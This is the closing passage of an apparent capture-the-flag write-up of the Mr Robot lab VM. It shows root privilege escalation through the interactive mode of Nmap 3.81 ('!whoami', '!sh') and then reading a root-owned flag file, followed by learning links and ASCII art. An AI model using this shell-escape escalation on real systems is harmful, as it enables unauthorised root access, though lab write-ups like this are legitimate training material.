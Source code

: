 The Nmap version is 3.81, so I tried it out:

``` 
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
```

It did work! Game over, Mr Robot!

``` 
nmap> !sh
!sh
# ls /root
ls /root
firstboot_done	key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

Another interesting challenge, more story driven. It reminded me of [Primer](https://chousensha.github.io/blog/2016/03/11/pentest-lab-primer/).

**Learn more**

- [Using wpscan to find Wordpress vulnerabilities](https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.html)

- [Attack and Defend: Linux Privilege Escalation Techniques of 2016](https://pen-testing.sans.org/resources/papers/gcih/attack-defend-linux-privilege-escalation-techniques-2016-152744)

``` 
 ___________________________________
/ You have literary talent that you \
\ should take pains to develop.     /
 -----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

 


